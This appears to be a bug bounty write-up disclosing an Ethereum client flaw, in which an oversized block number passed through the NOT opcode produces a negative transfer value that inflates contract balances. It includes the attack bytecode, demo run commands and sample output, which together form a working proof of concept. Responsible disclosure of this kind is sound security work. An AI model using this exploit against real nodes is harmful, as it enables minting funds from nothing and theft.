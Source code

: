 Ethereum Bug Bounty Submission: Sending Negative Value Transactions
---
A miner can create a valid block with any blocknumber `n` on top of any block. 
Assume `n`  exceeds 32 byte.
A contract mined in that block can push `n` on the stack using the NUMBER opcode. 
Because the NOT opcode assumes that all values on the stack are smaller than 32 byte, 
its result will be negative. Then we can use that number to create a transaction with 
negative value. Because the Transfer method simply subtracts the tx value, the contracts balance will actually increase by `n - 2^256 + 1` units out of thin air.

Contract:
```
PUSH1 0 PUSH1 0 PUSH1 0 PUSH1 0 NUMBER NOT PUSH20 someAddr PUSH1 0 CALL
```

Works out-of-the-box against the develop branch (643eda5), but there is a patch for master (771bfe9) as well. The following starts a private network with a malicious miner and a node, creates the contract at the miner and reads the balance from the node.

```
./install.sh
./run.sh
./demo.py
```

Sample output for block with `n=2^512+i`:
```
Create new contract with zero initial balance. Address: 0b435977a4375bd84162499bc2d02a07c3ecbe80
Press enter when the client received the block

Contract balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
Receiver balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
```
Contract balance is `2^512 + i - 2^256 + 1`.


